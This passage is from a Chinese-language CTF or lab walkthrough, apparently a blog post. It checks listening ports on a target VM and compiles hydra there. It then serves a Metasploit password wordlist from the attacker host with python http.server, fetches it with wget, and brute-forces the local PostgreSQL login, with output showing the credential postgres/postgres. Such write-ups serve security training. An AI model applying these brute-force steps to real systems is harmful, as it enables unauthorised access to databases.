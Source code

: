 解压结果中含有大量的爆破信息：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402050338488.png" alt="image-20240205023918141" style="zoom:50%;" />

猜测要使用`hydra`进行爆破！

先查看一下`linux`系统监听：

```bash
netstat -ano
# netstat: 用于显示网络状态的命令。
# -t: 仅显示 TCP 连接。
# -u: 仅显示 UDP 连接。
# -l: 仅显示监听状态的套接字。
# -n: 使用数字形式显示地址和端口号。
# -p: 显示进程标识符（PID）和进程名称。
```

![image-20240205024927613](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402050338489.png)

不知道这个`postgresql`是个啥，但是和之前爆破的应该有关系（按照师傅的思路走！）

> PostgreSQL（通常简称为 Postgres）是一个开源的关系型数据库管理系统（RDBMS），它的设计目标是提供高度可扩展性、灵活性和丰富的功能集。PostgreSQL 不仅支持标准的 SQL 查询语言，还提供了许多高级功能，如复杂的数据类型、事务、触发器、视图、存储过程等。

```shell
netstat -ant
netstat -at
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402050338490.png" alt="image-20240205025739953" style="zoom: 50%;" />

### 靶机本地爆破

这个看到`postgresql`是使用的`5431`端口，而这个端口是没有开放的，所以我们只能本地进行爆破啦：

```shell
# 本地下载hydra，刚刚那个post里就是！
cd post
./configure
make
# 验证是否安装完成
hydra --help
```

我这里发生了报错：

![image-20240205030228353](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402050338491.png)

尝试移到`/tmp`进行操作，还是不行。。。。不管他试试：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402050338492.png" alt="image-20240205030902667" style="zoom:50%;" />

执行命令：

```shell
# Client
cd /usr/share/metasploit-framework/data/wordlists
python3 -m http.server 8888
# Server
wget http://192.168.244.133:8888/postgres_default_pass.txt
./hydra -L postgres_default_pass.txt -P postgres_default_pass.txt localhost postgres
# Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
# Hydra (http://www.thc.org/thc-hydra) starting at 2024-02-04 19:57:00
# [DATA] max 16 tasks per 1 server, overall 64 tasks, 25 login tries (l:5/p:5), ~0 tries per task
# [DATA] attacking service postgres on port 5432
# [5432][postgres] host: localhost   login: postgres   password: postgres
# 1 of 1 target successfully completed, 1 valid password found
```